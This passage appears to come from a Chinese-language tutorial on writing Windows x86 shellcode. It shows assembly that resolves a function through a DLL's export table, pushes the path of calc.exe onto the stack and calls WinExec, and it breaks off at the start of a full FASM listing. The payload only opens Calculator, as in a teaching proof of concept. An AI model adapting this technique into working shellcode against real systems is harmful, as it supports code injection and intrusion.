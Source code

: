 ```asm

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x26
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    add esp, 0x26           ; clear the stack

.end:
    pop ebp
    ret
```

#### 调用函数

找到函数地址之后，准备函数参数并调用。汇编代码：

```asm
    ; call function
    xor edx, edx
    push edx		        ; null termination
    push 6578652eh
    push 636c6163h
    push 5c32336dh
    push 65747379h
    push 535c7377h
    push 6f646e69h
    push 575c3a43h
    mov esi, esp            ; esi -> "C:\Windows\System32\calc.exe"
    
    push 10                 ; window state SW_SHOWDEFAULT
    push esi                ; "C:\Windows\System32\calc.exe"
    call eax                ; WinExec
```

#### 调整 shellcode

目前的 shellcode 基本上已经写完了，整体如下：

```asm
format PE console
use32
entry start
start:
    ; establish a new stack frame
    pushad
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    push esi                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
```
